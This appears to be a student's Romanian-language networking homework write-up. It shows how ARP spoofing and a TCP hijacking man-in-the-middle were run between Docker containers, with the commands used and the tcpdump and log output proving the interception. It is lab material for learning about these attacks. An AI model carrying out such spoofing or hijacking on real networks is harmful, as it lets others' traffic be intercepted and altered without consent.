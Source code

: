 # Tema 5

## 1. ARP Spoofing (5%)

Pornim script-ul `src/arp_spoof.py` pe container-ul `middle`:
```sh
$ docker-compose exec middle python3 /elocal/src/arp_spoof.py
```

Mai întâi, acesta determină adresele MAC ale router-ului și ale server-ului,
ca să știe unde să trimită reply-urile ARP:
```
IP 198.7.0.2 has MAC 02:42:c6:07:00:02
IP 198.7.0.1 has MAC 02:42:c6:07:00:01
```

După aceea, construiește pachetele ARP reply și începe să le
transmită la intervale regulate pe rețea:
```
Telling 198.7.0.1 we have IP 198.7.0.2
Telling 198.7.0.2 we have IP 198.7.0.1
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
...
```

Pe server rulăm un `wget`:
```
$ docker-compose exec server wget example.com
--2020-06-24 06:59:00--  http://example.com/
Resolving example.com (example.com)...
```

În acest moment, observăm că pe server avem adresa MAC a noastră pentru IP-ul router-ului:
```
$ docker-compose exec server arp
Address                  HWtype  HWaddress           Flags Mask            Iface
tema-5-the-masks_router  ether   02:42:c6:07:00:03   C                     eth0
tema-5-the-masks_middle  ether   02:42:c6:07:00:03   C                     eth0
```

### Output tcpdump

Pe `middle` pornim `tcpdump -SntvXX -i any`. De pe server facem din nou `wget`.
Observăm că interceptăm mesajele HTTP ale server-ului:
```sh
$ docker-compose exec middle tcpdump -SntvXX -i any
...
IP (tos 0x0, ttl 64, id 38277, offset 0, flags [DF], proto TCP (6), length 190)
    198.7.0.2.55218 > 93.184.216.34.80: Flags [P.], cksum 0xfc94 (incorrect -> 0xf3ac), seq 3109930171:3109930309, ack 2279850264, win 502, options [nop,nop,TS val 739984417 ecr 4160807878], length 138: HTTP, length: 138
        GET / HTTP/1.1
        User-Agent: Wget/1.20.3 (linux-gnu)
        Accept: */*
        Accept-Encoding: identity
        Host: example.com
        Connection: Keep-Alive

        0x0000:  0000 0001 0006 0242 c607 0002 0000 0800  .......B........
        0x0010:  4500 00be 9585 4000 4006 a8d0 c607 0002  E.....@.@.......
        0x0020:  5db8 d822 d7b2 0050 b95d c4bb 87e3 c118  ].."...P.]......
        0x0030:  8018 01f6 fc94 0000 0101 080a 2c1b 4421  ............,.D!
        0x0040:  f800 e3c6 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0050:  2e31 0d0a 5573 6572 2d41 6765 6e74 3a20  .1..User-Agent:.
        0x0060:  5767 6574 2f31 2e32 302e 3320 286c 696e  Wget/1.20.3.(lin
        0x0070:  7578 2d67 6e75 290d 0a41 6363 6570 743a  ux-gnu)..Accept:
        0x0080:  202a 2f2a 0d0a 4163 6365 7074 2d45 6e63  .*/*..Accept-Enc
        0x0090:  6f64 696e 673a 2069 6465 6e74 6974 790d  oding:.identity.
        0x00a0:  0a48 6f73 743a 2065 7861 6d70 6c65 2e63  .Host:.example.c
        0x00b0:  6f6d 0d0a 436f 6e6e 6563 7469 6f6e 3a20  om..Connection:.
        0x00c0:  4b65 6570 2d41 6c69 7665 0d0a 0d0a       Keep-Alive....
...
```

## 2. TCP Hijacking (5%)


Am creat script-ul `middle.py` care primeste pachetele de tip TCP de la router, le modifica si le trimite catre server, ca si cum ar fi router-ul.
In tot acest timp, script-ul `src/arp_spoof.py` ramane pornit.

Pe container-ul `middle` pornim scipt-ul `middle.py`:
```
$ docker-compose exec middle python3 /elocal/src/middle.py

.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
...
```

Pe container-ul `client` pornim script-ul `tcp_client.py`:
```
$ docker-compose exec client python3 /elocal/src/tcp_client.py

[LINE:17]# INFO     [2020-06-29 19:37:58,309]  Handshake cu ('198.7.0.2', 10000)
[LINE:22]# INFO     [2020-06-29 19:38:01,328]  Content primit: "b'Server a primit mesajul: :)'"
[LINE:25]# INFO     [2020-06-29 19:38:01,328]  closing socket
```

Pe container-ul `server` pornim script-ul `tcp_server.py`:
```
$ docker-compose exec server python3 /elocal/src/tcp_server.py

[LINE:14]# INFO     [2020-06-29 19:37:49,016]  Serverul a pornit pe 198.7.0.2 si portnul portul 10000
[LINE:17]# INFO     [2020-06-29 19:37:49,017]  Asteptam conexiui...
[LINE:19]# INFO     [2020-06-29 19:37:58,310]  Handshake cu ('198.7.0.3', 49468)
[LINE:22]# INFO     [2020-06-29 19:38:01,327]  Content primit: "b':)'"
[LINE:17]# INFO     [2020-06-29 19:38:01,328]  Asteptam conexiui...
```


Daca rulam `tcpdump` pe server, putem vedea ca el crede ca primeste pachetul de la router:
```
$ docker-compose exec server tcpdump -SntvXX -i any

tcpdump: listening on any, link-type LINUX_SLL (Linux cooked v1), capture size 262144 bytes
ARP, Ethernet (len 6), IPv4 (len 4), Reply 198.7.0.1 is-at 02:42:c6:07:00:03, length 28
        0x0000:  0000 0001 0006 0242 c607 0003 0000 0806  .......B........
        0x0010:  0001 0800 0604 0002 0242 c607 0003 c607  .........B......
        0x0020:  0001 0242 c607 0002 c607 0002            ...B........
ARP, Ethernet (len 6), IPv4 (len 4), Reply 198.7.0.1 is-at 02:42:c6:07:00:03, length 28
        0x0000:  0000 0001 0006 0242 c607 0003 0000 0806  .......B........
        0x0010:  0001 0800 0604 0002 0242 c607 0003 c607  .........B......
        0x0020:  0001 0242 c607 0002 c607 0002            ...B........
ARP, Ethernet (len 6), IPv4 (len 4), Reply 198.7.0.1 is-at 02:42:c6:07:00:03, length 28
        0x0000:  0000 0001 0006 0242 c607 0003 0000 0806  .......B........
        0x0010:  0001 0800 0604 0002 0242 c607 0003 c607  .........B......
        0x0020:  0001 0242 c607 0002 c607 0002            ...B........
        ...
        ```
